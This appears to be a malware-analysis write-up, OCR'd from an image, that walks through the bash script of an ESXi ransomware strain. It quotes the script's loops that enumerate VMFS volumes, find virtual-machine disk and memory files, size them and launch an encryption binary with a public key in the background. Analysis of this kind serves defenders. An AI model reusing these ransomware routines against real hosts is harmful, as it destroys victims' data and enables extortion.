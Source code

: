 ```bash
        if [[ $(($size_kb/1024)) -gt 128 ]]; then
          size_step=$((($size_kb/1024/100)-1))
        fi
        echo "START ENCRYPT: $file_e SIZE: $size_kb STEP SIZE: $size_step" "\"$file_e\" $size_step 1 $((size_kb*1024))"
        echo $size_step 1 $((size_kb*1024)) > "$file_e.args"
        nohup $CLEAN_DIR/encrypt $CLEAN_DIR/public.pem "$file_e" $size_step 1 $((size_kb*1024)) >/dev/null 2>&1&
      fi
  done
  IFS=$" "
done
```

Let's break this down: 

```bash
for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
```

This 1st `for loop` is going through every volumes in the `/vmfs/volumes/` directory.

```bash
for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
```

This 2nd `for loop` is going to try to find any files in those volumes with the following extensions:
- `.vmdk`
- `.vmx`
- `.vmxf`
- `.vmsd`
- `.vmsn`
- `.vswp`
- `.vmss`
- `.nvram`
- `.vmem`

```bash
if [[ -f "$file_e" ]]; then
    size_kb=$(du -k $file_e | awk '{print $1}')
    if [[ $size_kb -eq 0 ]]; then
        size_kb=1
    fi
    size_step=0
    if [[ $(($size_kb/1024)) -gt 128 ]]; then
        size_step=$((($size_kb/1024/100)-1))
    fi
```

This part of the script tries to determine the size of the files that it found in the 2nd `for loop`. The number of steps to encrypt the file (number of MB to skip) is derived from this file size.
